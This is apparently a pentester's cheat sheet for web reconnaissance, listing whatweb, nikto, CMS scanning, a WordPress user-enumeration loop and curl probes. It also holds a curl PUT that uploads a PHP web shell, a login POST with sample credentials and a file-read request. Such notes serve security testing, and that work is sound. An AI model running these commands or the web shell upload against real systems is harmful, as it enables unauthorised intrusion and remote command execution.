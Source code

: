 Check for the following items:
* Navigate, robots.txt, sitemap.xml
* Headers
* page source Code

```bash
# Server Version (Vulnerable?)
whatweb -a 1 <URL> #Stealthy
whatweb -a 3 <URL> #Aggresive
webtech -u <URL>

# Nikto
nikto -h http://$ip

# CMS Explorer
cms-explorer -url http://$IP -type [Drupal, WordPress, Joomla, Mambo]


# Enum User:

for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}';done


# Get header
curl -i $IP

# Get options
curl -i -X OPTIONS $IP

# Get everything
curl -i -L $IP
curl -i -H "User-Agent:Mozilla/4.0" http://$IP:8080

# Check for title and all links
curl $IP -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl $IP -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://$IP/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$IP/test/shell.php

# Simple curl POST request with login data
curl -X POST http://$IP/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

curl -s  http://$IP/fileRead.php -d 'file=fileRead.php' | jq -r ."file"


# Google Dork

site:domain.com intext:user

https://github.com/sushiwushi/bug-bounty-dorks
```

